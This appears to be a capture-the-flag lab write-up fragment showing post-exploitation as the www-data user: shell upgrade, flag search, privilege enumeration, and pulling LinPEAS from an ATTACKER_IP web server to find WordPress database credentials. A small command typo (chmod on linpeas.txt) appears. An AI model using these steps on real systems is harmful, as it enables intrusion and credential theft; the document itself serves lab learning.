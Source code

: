 16:57:28 up 15 min, 0 users, load average: 0.00, 0.01, 0.03

USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT

uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/sh: 0: can't access tty; job control turned off

$ whoami

www-data

$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

**Upgrade shell**

python -c 'import pty; pty.spawn("/bin/bash")'

**Find user.txt**

find / -name user.txt -type f 2>/dev/null

/usr/share/doc/phpmyadmin/html/\_sources/user.txt

* File does not contain flag.

cd /home

ls -la

\[...snip...]

drwx------ 7 aubreanna aubreanna 4096 Aug 3 2020 aubreanna

* No access to directory.
* www-data has no sudo delegation (sudo -l).
* No interesting cron jobs (cat /etc/crontab).

#### **Use LinPEAS to enumerate target host (Discovery: System Information Discovery (T1082))** <a href="#rw8nxw6nuooa" id="rw8nxw6nuooa"></a>

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

* Serve payload through python webserver.

python3 -m http.server

* Download LinPEAS to target host.

wget http://ATTACKER\_IP:8000/linpeas.sh

chmod +x ./linpeas.txt

* Ensure that target directory has write permissions.
  * E.g. /tmp.
* Write LinPEAS output to text file.

./linpeas.sh -a > linpeas.txt

* LinPEAS found wordpress MySQL database credentials.
